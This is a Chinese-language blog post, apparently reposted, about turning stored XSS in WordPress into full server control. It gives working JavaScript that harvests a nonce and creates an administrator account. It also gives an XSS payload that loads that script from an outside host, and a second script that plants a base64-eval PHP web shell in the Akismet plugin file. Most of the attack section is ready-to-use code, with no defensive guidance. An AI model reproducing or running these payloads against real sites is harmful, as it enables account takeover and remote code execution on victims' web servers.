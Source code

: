 # （从xss到getshell） xss的深层次利用与探讨

> 原文：[https://www.zhihuifly.com/t/topic/3269](https://www.zhihuifly.com/t/topic/3269)

# （从xss到getshell） xss的深层次利用与探讨

今天我们的网站上公布了大量的wp的xss，那么这篇文章就是深入探讨如何深入利用xss。

如果师傅们有什么新的思路或者姿势。可以通过邮箱联系我们进行讨论与交流

联系邮箱：ian@lcx.cc

## 通过js文件添加wp系统管理员

### 1、创建管理账号

举个例子，攻击者可以在其Web服务器上托管JavaScript文件，例如wpaddadmin [.] js（在链接中描述）。此JavaScript代码将添加一个WordPress管理员帐户，其用户名为“ attacker”，密码为“ attacker”。

```
// Send a GET request to the URL '/wordpress/wp-admin/user-new.php', and extract the current 'nonce' value  
var ajaxRequest = new XMLHttpRequest();  
var requestURL = "/wordpress/wp-admin/user-new.php";  
var nonceRegex = /ser" value="([^"]*?)"/g;  
ajaxRequest.open("GET", requestURL, false);  
ajaxRequest.send();  
var nonceMatch = nonceRegex.exec(ajaxRequest.responseText);  
var nonce = nonceMatch[1]; `// Construct a POST query, using the previously extracted ‘nonce’ value, and create a new user with an arbitrary username / password, as an Administrator

var params = “[action=createuser&_wpnonce_create-user="+nonce+"&user_login=attacker&email=attacker@site.com](mailto:action=createuser&_wpnonce_create-user=%22+nonce+%22&user_login=attacker&email=attacker@site.com)&pass1=attacker&pass2=attacker&role=administrator”;

ajaxRequest = new XMLHttpRequest();

ajaxRequest.open(“POST”, requestURL, true);

ajaxRequest.setRequestHeader(“Content-Type”, “application/x-www-form-urlencoded”);

ajaxRequest.send(params);` 
```

然后，攻击者可以使用以下PoC插入JavaScript。

```
“"&gt;&lt;img src=1 onerror="javascript&colon;(function () { var url = 'http://aaa.bbb.ccc.ddd/ wpaddadmin.js';if (typeof beef == 'undefined') { var bf = document.createElement('script'); bf.type = 'text/javascript'; bf.src = url; document.body.appendChild(bf);}})();"&gt;” 
```

### 图1.插入XSS代码以添加管理员帐户

![image](img/97ceaf33f091c57249f5bac277b01c95.png)

具有高权限的受害者查看此帖子后，将创建管理员帐户“攻击者”。

### 图2\. XSS代码被执行

![image](img/a9c6006dc97746273d6edc47e7eb9bf3.png)

### 图3\. XSS代码创建的具有管理员权限的“攻击者”帐户

![image](img/18854193a8135c45a3969739dad7d9be.png)

然后，攻击者可以将现有的php文件修改为Webshel​​l，并使用该Webshel​​l来控制Web服务器。

图4.使用攻击者的帐户添加一个Web Shell

![image](img/643e2f2cc70e08b3ae62893f603f0edc.png)

图5.控制Web服务器

![image](img/d929883375e2106e48ef99b1b0f7340f.png)

### 2、恶意命令执行

```
// Send a GET request to the URL '/wp-admin/plugin-editor.php?akisment/index.php', and extract the current 'nonce' value
var ajaxRequest = new XMLHttpRequest();
var requestURL = "/wp-admin/plugin-editor.php?file=akismet/index.php"
var nonceRegex = /ce" value="([^"]*?)"/g;
ajaxRequest.open("GET", requestURL, false);
ajaxRequest.send();
var nonceMatch = nonceRegex.exec(ajaxRequest.responseText);
var nonce = nonceMatch[1]; `// Construct a POST query, using the previously extracted ‘nonce’ value, and update the content of the file ‘akismet/index.php’ with our tiny web shell

var params = “_wpnonce=”+nonce+"&newcontent=<?php eval(base64_decode($_REQUEST[‘x’]));&action=update&file=akismet/index.php"

ajaxRequest = new XMLHttpRequest();

ajaxRequest.open(“POST”, requestURL, true);

ajaxRequest.setRequestHeader(“Content-Type”, “application/x-www-form-urlencoded”);

ajaxRequest.send(params);` 
```

一旦此XSS被管理用户触发，我们应该能够通过向脚本

http://0-sec.org/wp-content/plugins/akismet/index.php

发送GET / POST请求来执行任意PHP代码，其中参数“ x”等于我们的PHP代码的“ base64_encode”。